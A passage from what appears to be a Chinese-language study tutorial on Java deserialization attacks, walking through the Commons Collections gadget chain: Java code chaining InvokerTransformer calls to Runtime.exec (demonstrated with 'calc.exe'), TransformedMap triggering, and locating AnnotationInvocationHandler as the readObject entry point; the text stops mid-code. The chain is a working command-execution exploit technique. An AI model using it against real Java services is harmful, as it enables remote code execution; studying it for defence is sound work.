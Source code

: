 
#### 3.6.3 中介的最终构造

1. 最终，将两个中介合并，得到以下内容：
    ```java
    // 构造转换器链（恶意代码以及中介的一部分）
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})     
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform() （中介的另一部分）
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    hashMap.put("1", "随便");
    
    // 这一步负责触发恶意代码（实际上算在 readObject() 中的一部分）
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.4 如何在反序列化时“告知中介”

1. 首先，就这个标题，就应该知道这部分应该有三个要点：

    1. 类能被反序列化

    2. 被反序列化时，其内部的 `readObject()` 会调用类似：
        ```java
        transformedMap.entrySet().iterator().next().setValue("123");
        ```

        的代码。
        
    3. 这个类尽量是依赖里面的或者是 JDK 原生的。

2. 寻找思路：
    既然触发点是 `setValue()` 函数，那么就先从最简单的找起：`readObject()` 中直接调用 `setValue()` 方法的类。右键 `setValue()` ，点击 `Find Usage` 。

3. 最终寻找到一个类是 `AnnotationInvocationHandler`（需要注意的是，JDK 的版本是 1.8 的低版本，在 1.8 最新的版本中，该类的 `readObject()` 中没有调用 `setValue()` 函数，从而失效）。
    ![image-20230408102200566](image-20230408102200566.png)

4. 分析一下，这个类的 `memberValue` 是可传入的而且是 `Map` 中的 `Map.Entry`，因此方向就是实例化这个类然后传入构造好的 `transformedMap`。

5. 由于这个类它没有被 `public` 关键字修饰，因此它不可以直接通过 `new` 实例化，因此要采用反射机制去创建它。

6. 创建过程大概如下：
    ```java
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里为什么 key 是 "value"，下文有解释
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    